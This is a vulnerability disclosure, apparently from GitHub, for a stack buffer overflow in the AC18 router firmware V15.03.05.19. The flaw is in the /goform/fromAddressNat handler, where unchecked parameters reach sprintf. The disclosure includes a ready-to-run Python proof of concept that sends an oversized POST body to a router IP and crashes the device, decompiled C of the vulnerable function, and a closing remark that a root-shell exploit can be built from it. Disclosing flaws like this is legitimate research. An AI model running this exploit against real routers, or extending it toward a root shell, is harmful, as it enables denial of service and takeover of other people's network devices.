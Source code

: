 # fromAddressNat

### Affected product

```
AC18 V15.03.05.19
```

/goform/addressNat，entrys 、mitInterface and page  are controllable and will eventually be spliced into s  or v6 by sprintf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

### POC

```
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.119'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x1000
p2 = b'mitInterface=1&page=1&entrys' + p1

p3 = b"POST /goform/fromAddressNat" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.119" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

### Detail

```c
 v9 = (const char *)sub_2BA8C(a1, "entrys", &unk_E5D48);
  v8 = (const char *)sub_2BA8C(a1, "mitInterface", &unk_E5D48);
  sprintf(s, "%s;%s", v9, v8);
  sub_4EC58("adv.addrnat", s, 126);
  v7 = (const char *)sub_2BA8C(a1, "page", "1");
  v1 = sprintf(v6, "advance/addressNatList.asp?page=%s", v7);
  if ( CommitCfm(v1) )
  {
    sprintf(v4, "advance_type=%d", 7);
    send_msg_to_netctrl(5, v4);
  }
  return sub_2BE4C(a1, v6);
}
```

You can see the router crash, and finally we can write an exp to get a root shell
